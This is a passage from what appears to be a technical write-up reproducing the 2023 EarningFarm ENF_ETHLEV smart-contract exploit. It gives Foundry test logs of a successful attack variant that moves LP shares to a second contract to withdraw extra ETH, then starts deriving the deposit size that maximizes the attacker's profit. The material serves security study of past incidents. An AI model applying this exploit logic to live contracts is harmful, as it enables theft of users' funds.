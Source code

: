 Looking at the ENF\_ETHLEV contract code, if the attacker were to transfer all shares to another contract, leaving their balance at 0, it shouldn't trigger an error. Then, using another contract to withdraw all the shares, theoretically, the attacker could obtain more ETH than with "share - 1000". Let's implement this.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_3.t.sol:ContractTest
[PASS] testExploit() (gas: 4086738)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750564 159826149929020750564
  [*] Attacker's total WETH after attack: 10159.324273138764416549
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416549
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416549

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

it turns out that this approach indeed generates slightly more profit than the original.

### 3. Is depositing an equal amount of ETH to the ENF\_ETHLEV contract the optimal choice?

At this point, we need to introduce a bit of mathematics.

(1) Suppose the original contract's ETH balance is x. The ETH deposited by the attacker is y, and at this point, the LP share owned by the attacker is `y/(x+y)`.

(2) The attacker withdraws y ethers and transfers all LP shares to another contract.

(3) The other contract now holds LP shares equal to `y/(x+y)`. At this moment, the original contract has x ethers. Therefore, the other contract can withdraw `x*y/(x+y)` ethers, which constitutes the attacker's profit.

Now our problem is transformed into:

* The Expression: We want to maximize `f(y) = x * y / (x + y)`.
* The Constraint: We have a fixed value for x.
* Maximization: We want to find the value of y that maximizes f(y).
